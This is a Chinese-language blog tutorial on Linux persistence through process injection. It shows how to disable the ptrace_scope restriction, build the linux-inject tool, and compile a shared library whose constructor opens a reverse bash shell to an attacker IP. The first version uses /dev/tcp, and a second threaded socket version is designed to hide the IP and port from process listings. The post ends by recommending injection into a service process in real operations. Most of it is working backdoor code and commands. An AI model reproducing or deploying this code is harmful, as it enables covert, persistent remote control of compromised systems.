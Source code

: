 ```yaml
---
date: "2020-01-01T00:00:00Z"
description: 通过进程注入技术，能够使得动态链接库被加载到一个正在运行的进程，因此较为隐蔽。
title: Linux权限维持之进程注入
url: /archivers/2020-01-01/2
---
```


## 说明

通过进程注入技术，能够使得动态链接库被加载到一个正在运行的进程，因此较为隐蔽。进程注入通过调用`ptrace()`实现了与Windows平台下相同作用的API 函数`CreateRemoteThread()`。在许多Linux发行版中，内核的默认配置文件`/proc/sys/kernel/yama/ptrace_scope`限制了一个进程除了`fork()`派生外，无法通过`ptrace()`来操作另外一个进程。

要注入进程前，需要关闭这个限制（Root权限）：

```echo 0 | sudo tee /proc/sys/kernel/yama/ptrace_scope```

![2020-01-03-13-10-44](https://images.payloads.online/7d2bcefa-4f5f-11ec-812b-00d861bf4abb.png)

在Github上已经有了关于进程注入的实现代码：`https://github.com/gaffe23/linux-inject`

下载后进入项目目录，执行：make x86_64 即可编译64位的linux-inject。



![2020-01-03-13-10-54](https://images.payloads.online/7d6a2c90-4f5f-11ec-9773-00d861bf4abb.png)


确认编译是否正常：

![2020-01-03-13-11-04](https://images.payloads.online/7da8298c-4f5f-11ec-9dfb-00d861bf4abb.png)

获取sample-target的PID后，调用inject程序来注入sample-library.so，注入成功会输出“I just got loaded”。
接下来，需要更改sample-target.c文件，编译成需要的权限维持动态链接库。


```c
#include <stdio.h>
#include <unistd.h>
#include <dlfcn.h>
#include <stdlib.h>


void shell()
{
	printf("I just got loaded\n");
    system("bash -c \"bash -i >& /dev/tcp/192.168.170.138/139 0>&1\"");
   
}


__attribute__((constructor))
void loadMsg()
{
   shell();
}

```

通过如下命令编译so文件：

```
clang -std=gnu99 -ggdb -D_GNU_SOURCE -shared -o u9.so -lpthread -fPIC U3.c

```

![2020-01-03-13-11-16](https://images.payloads.online/7deb9a0a-4f5f-11ec-9a01-00d861bf4abb.png)


编译成so文件成功后的测试效果：

![2020-01-03-13-11-27](https://images.payloads.online/7e2a248c-4f5f-11ec-b266-00d861bf4abb.png)

在Kali Linux这边获得了bash shell：

![2020-01-03-13-11-47](https://images.payloads.online/7e6241aa-4f5f-11ec-af1a-00d861bf4abb.png)

此时发现测试程序的主线程被bash阻塞了，于是可以采用多线程技术，将后门代码与正常逻辑分离执行。

![2020-01-03-13-11-58](https://images.payloads.online/7e9c6b50-4f5f-11ec-b656-00d861bf4abb.png)

但利用这种方式在执行的过程中，查看进程参数还是会被查看到IP地址和端口：

![2020-01-03-13-12-09](https://images.payloads.online/7ed600f4-4f5f-11ec-969b-00d861bf4abb.png)

查看到IP与端口：

![2020-01-03-13-12-19](https://images.payloads.online/7f1565dc-4f5f-11ec-bacf-00d861bf4abb.png)

再继续改进代码，采用socket套接字的方式来反弹shell：

```c
#include <stdio.h>
#include <dlfcn.h>
#include <stdlib.h>
#include <pthread.h>
#include <stdio.h>
#include <sys/types.h>
#include <sys/socket.h>
#include <unistd.h>
#include <fcntl.h>
#include <stdio.h>
#include <sys/types.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <netdb.h>


static void * hello()
{

    struct sockaddr_in server;
    int sock;
    char shell[]="/bin/bash";
    if((sock = socket(AF_INET, SOCK_STREAM, 0)) == -1) {
        return NULL;
    }

    server.sin_family = AF_INET;
    server.sin_port = htons(139);
    server.sin_addr.s_addr = inet_addr("192.168.170.138");
    if(connect(sock, (struct sockaddr *)&server, sizeof(struct sockaddr)) == -1) {
        return NULL;
    }
    dup2(sock, 0);
    dup2(sock, 1);
    dup2(sock, 2);
    execl(shell,"/bin/bash",(char *)0);
    close(sock);
	printf("I just got loaded\n");
    return NULL;
}

__attribute__((constructor))
void loadMsg()
{
    pthread_t thread_id;
    pthread_create(&thread_id,NULL,hello,NULL);
}


```


执行效果：

![2020-01-03-13-12-35](https://images.payloads.online/7f567f90-4f5f-11ec-bb46-00d861bf4abb.png)


Kali Linux获得bash shell：

![2020-01-03-13-12-46](https://images.payloads.online/7f96bea2-4f5f-11ec-8151-00d861bf4abb.png)

在实战应用中，需要关闭ptrace的限制，然后注入.so到某个服务进程中，这样达到权限维持的目的。


